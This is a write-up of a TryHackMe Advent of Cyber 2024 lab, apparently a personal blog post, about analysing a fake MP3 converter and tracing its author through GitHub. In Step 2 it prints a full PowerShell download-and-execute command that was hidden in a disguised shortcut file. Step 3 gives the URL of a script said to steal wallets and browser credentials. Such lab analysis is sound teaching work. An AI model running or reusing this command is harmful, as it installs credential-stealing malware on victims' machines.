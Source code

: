 # 🎄 TryHackMe Advent of Cyber 2024 – Day 1: OPSEC Challenge


## Challenge Overview 🎅

Day 1 of the **Advent of Cyber 2024** starts off strong by taking us through an investigation into a suspicious YouTube to MP3 converter website. The goal is to analyze downloaded files, uncover malicious behavior, and track down the attacker by following their OPSEC mistakes. Along the way, I explored:
- Metadata analysis with tools like `exiftool`
- Unpacking and inspecting PowerShell scripts
- Tracing digital breadcrumbs back to their source

This was a fun and hands-on start to the month!

## Objectives 🎯

1. Investigate the suspicious website and analyze how it works.
2. Look into the files downloaded from the site for anything malicious.
3. Trace the attacker’s identity using GitHub and highlight their OPSEC blunders.


## Step 1: Investigating the Website

The website, hosted at `10.10.200.221`, looked like a standard YouTube to MP3 converter. Here’s what I did:
1. Opened the site in the AttackBox and noticed the “About” page credited its creator as **“The Glitch.”**
2. Pasted a YouTube link into the form to download a file named `download.zip`.
3. Extracted the ZIP file and found two files inside:
   - **`song.mp3`**
   - **`somg.mp3`**

At this point, everything seemed normal, but the odd filename `somg.mp3` caught my attention.

## Step 2: File Analysis Using ExifTool 🔍

### Analyzing `song.mp3`

I started with the seemingly legitimate file, running:

```
exiftool song.mp3
```

**Result:**
- The file was confirmed to be a regular MP3 with standard metadata.
- Nothing unusual or malicious here—just an audio file.


### Analyzing `somg.mp3`

The suspiciously named `somg.mp3` was next. I ran:

```
exiftool somg.mp3
```

**Result:**
- This wasn’t an MP3 at all! It was actually a Windows Shortcut file (`.lnk`).
- The metadata revealed an embedded PowerShell command:

```
-ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
```

This command is clearly malicious—it bypasses PowerShell execution policies, downloads a script from a remote URL, and executes it on the victim’s machine.

## Step 3: Opening `somg.mp3` in Browser 🌐

To learn more, I opened the URL embedded in the PowerShell command:

[https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)

**Script Analysis:**
- The script collects sensitive data, such as:
  - Cryptocurrency wallet files
  - Browser credentials
- This stolen data is sent to a **Command and Control (C2) server** hosted by the attacker.

## Step 4: Tracing the Attacker on GitHub 🔗

The PowerShell script contained a signature:

```
"Created by the one and only M.M."
```

### GitHub Search

I searched GitHub for this signature:

```
"Created by the one and only M.M."
```

This led me to:
- A repository owned by **M.M.**
- GitHub Issues where M.M. interacted publicly, leaving a digital trail.

### Revealing the Attacker’s Identity

By following M.M.’s activity on GitHub, I uncovered:
1. **Real Name:** The attacker’s profile included their real name.
2. **Repositories:** They hosted malicious scripts publicly.
3. **Comments:** M.M.’s interactions in Issues sections tied their GitHub account to the malware.

## Key Findings 🔑

1. **Legitimate File:** `song.mp3` was harmless.
2. **Malicious File:** `somg.mp3` contained a PowerShell command to execute a malicious script.
3. **C2 Server:** The attacker’s script sent stolen data to a remote server.
4. **Attacker Identity:** Poor OPSEC practices on GitHub exposed "M.M."

## Lessons Learned 🌟

### OPSEC Failures

This challenge was a great reminder of how attackers often slip up:
- **Reused Aliases:** M.M. used the same username across platforms.
- **Identifiable Metadata:** Including a signature in the script made it traceable.
- **Public Interactions:** Commenting on GitHub linked M.M.’s activity to their malware.

### Tools and Techniques

Some of the key tools and steps I used:
- **`exiftool`:** To extract metadata and uncover the PowerShell command.
- **Browser Inspection:** To investigate URLs and find additional clues.
- **GitHub Search:** To trace the attacker and identify their OPSEC mistakes.

## Final Thoughts 🎁

Day 1 of the Advent of Cyber series kicked off with a solid introduction to metadata analysis, malicious script investigation, and tracking down an attacker’s identity. It was a great mix of technical analysis and detective work, and I’m excited to see what challenges Day 2 will bring!
